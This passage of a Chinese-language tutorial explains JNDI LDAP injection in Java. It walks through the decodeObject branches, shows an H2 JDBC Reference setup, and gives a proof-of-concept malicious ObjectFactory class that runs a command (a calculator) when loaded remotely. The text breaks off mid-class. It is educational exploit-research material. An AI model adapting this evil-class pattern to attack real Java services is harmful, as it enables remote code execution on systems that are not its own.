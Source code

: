 ```java
    String JDBC_PASSWORD = "password";

    ref.add(new StringRefAddr("driverClassName","org.h2.Driver"));
    ref.add(new StringRefAddr("url",JDBC_URL));
    ref.add(new StringRefAddr("username",JDBC_USER));
    ref.add(new StringRefAddr("password",JDBC_PASSWORD));
    ref.add(new StringRefAddr("initialSize","1"));
    ref.add(new StringRefAddr("init","true"));
    return ref;
}
```

# JNDI LDAP 利用
在调用 JNDI LDAP 协议进行 lookup 查找远程对象时，最终会进入 com.sun.jndi.ldap.Obj.decodeObject 方法。
```java
    static Object decodeObject(Attributes var0) throws NamingException {
        String[] var2 = getCodebases(var0.get(JAVA_ATTRIBUTES[4]));

        try {
            Attribute var1;
            if ((var1 = var0.get(JAVA_ATTRIBUTES[1])) != null) {
                ClassLoader var3 = helper.getURLClassLoader(var2);
                return deserializeObject((byte[])((byte[])var1.get()), var3);
            } else if ((var1 = var0.get(JAVA_ATTRIBUTES[7])) != null) {
                return decodeRmiObject((String)var0.get(JAVA_ATTRIBUTES[2]).get(), (String)var1.get(), var2);
            } else {
                var1 = var0.get(JAVA_ATTRIBUTES[0]);
                return var1 == null || !var1.contains(JAVA_OBJECT_CLASSES[2]) && !var1.contains(JAVA_OBJECT_CLASSES_LOWER[2]) ? null : decodeReference(var0, var2);
            }
        } ...
    }
```
上面的三个分支中：
1. 如果查找 LDAP 服务得到的对象包含 javaSerializedData 属性（JAVA_ATTRIBUTES[1]），则会进入第一个分支会调用 deserializeObject 进行反序列化，因此会受到反序列化的影响。
2. 第二个分支调用 decodeRmiObject。
3. 如果查找 LDAP 服务得到的是一个 Reference 对象，则会进入第三个分支调用 decodeReference 方法。


## Reference 远程类加载（jdk < 8u191）
JNDI LDAP SPI 同样受到 Reference 远程类加载的影响，利用代码与 RMI 远程类加载时使用的一致。
```java
package com.dr34d;

import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;
import java.io.IOException;
import java.util.Hashtable;

public class TestEvilClass implements ObjectFactory {
    {
        try {
            Runtime.getRuntime().exec("mate-calc");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
    @Override
```